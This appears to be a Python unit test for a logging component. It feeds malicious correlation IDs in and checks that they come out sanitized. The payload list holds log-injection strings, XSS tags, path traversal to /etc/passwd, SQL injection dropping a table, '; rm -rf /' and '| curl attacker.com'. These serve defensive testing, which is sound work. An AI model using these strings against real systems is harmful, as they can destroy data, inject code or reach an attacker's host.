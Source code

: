 ```python
    Malicious correlation IDs could inject fake log entries, bypass monitoring,
    or exploit log analysis tools.

    CVSS Score: 6.5 (Medium)
    Attack Vector: Log injection
    Impact: Log poisoning, monitoring bypass
    """

    malicious_payloads = [
        # Log injection attempts
        ("test\n[ERROR] Unauthorized admin access granted", "newline injection"),
        ("test\r\n[CRITICAL] System compromised", "CRLF injection"),

        # XSS in log viewers
        ("<script>alert('xss')</script>", "XSS in log viewer"),
        ("<img src=x onerror=alert(1)>", "XSS via image tag"),

        # Path traversal in log file names
        ("../../../etc/passwd", "path traversal"),
        ("..\\..\\windows\\system32", "windows path traversal"),

        # SQL injection in log queries
        ("' OR '1'='1", "SQL injection"),
        ("1; DROP TABLE logs; --", "SQL injection with command"),

        # Command injection in log processors
        ("; rm -rf /", "command injection"),
        ("| curl attacker.com", "pipe injection"),

        # DoS via large payloads
        ("A" * 10000, "DoS via large correlation ID"),
    ]

    for malicious_id, attack_type in malicious_payloads:
        # Attempt to set malicious correlation ID
        set_correlation_id(malicious_id)
        retrieved = get_correlation_id()

        # Verify dangerous characters are removed or escaped
        assert '\n' not in retrieved, \
            f"{attack_type}: Newline not sanitized"
        assert '\r' not in retrieved, \
            f"{attack_type}: Carriage return not sanitized"
        assert '<' not in retrieved, \
            f"{attack_type}: HTML/XSS characters not sanitized"
        assert '>' not in retrieved, \
            f"{attack_type}: HTML/XSS characters not sanitized"
        assert '..' not in retrieved, \
            f"{attack_type}: Path traversal not prevented"
        assert ';' not in retrieved, \
            f"{attack_type}: Command separator not sanitized"
        assert '|' not in retrieved, \
            f"{attack_type}: Pipe character not sanitized"

        # Verify length is bounded
        assert len(retrieved) < 256, \
            f"{attack_type}: DoS via large correlation ID not prevented (length: {len(retrieved)})"
```
